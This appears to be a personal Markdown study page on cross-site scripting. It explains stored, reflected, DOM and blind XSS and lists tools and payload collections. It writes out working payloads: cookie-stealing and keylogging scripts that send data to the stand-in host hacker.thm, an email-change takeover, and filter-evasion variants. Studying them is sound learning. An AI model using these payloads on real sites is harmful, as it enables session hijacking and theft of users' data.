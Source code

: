 # XSS - Cross-Site Scripting

[Back to Table of Contents](../cysec)

---


> Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data

XSS attacks can be used for a wide-variety of attacks, resulting in anything from stealing cookies to executing arbitrary code on the server.

XSS can be confirmed by trying simple payloads:
~~~
<script>alert('XSS');</script>
~~~
Payload examples can be found at:
[Payload Box - XSS](https://github.com/payloadbox/xss-payload-list)
- PayLoadAllTheThings
- SecLists
- HackTricks

---

### Some examples:
#### Session stealing:
~~~

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

~~~
#### Key loggger:
~~~

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

~~~

#### Change email:
~~~

<script>user.changeEmail('attacker@hacker.thm');</script>

~~~

---

### Stored XSS

Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 

>Attack Vectors:

Comments on a blog

User profile information

Website Listings

---

### Reflected XSS

Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.

Attack Vectors:

Parameters in the URL Query String

URL File Path 

---
	
### DOM XSS

DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 

Attack Vectors:

eval()

---
	
### Blind XSS

Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.


---

#### Evasion:

~~~
"><script>alert(1);</script>
~~~

Close tag of encapsulating div:

~~~
</textarea><script>alert(1);</script>
~~~

	
Filter evasion:

Filter for 'script' --> sscriptcript

	
~~~
<sscriptcript>alert(1);</sscriptcript>
~~~

	
Within an image:

	
~~~
/images/cat.jpg" onload="alert(1);
~~~

---
	
### Tools:

-XSS is mostly and best, in my experience, done manually -- but some tools exist, with varying degrees of success. 
	
````
- xsshunter

- xsssniper

- xssstealer

- garud

- 0d1n
````
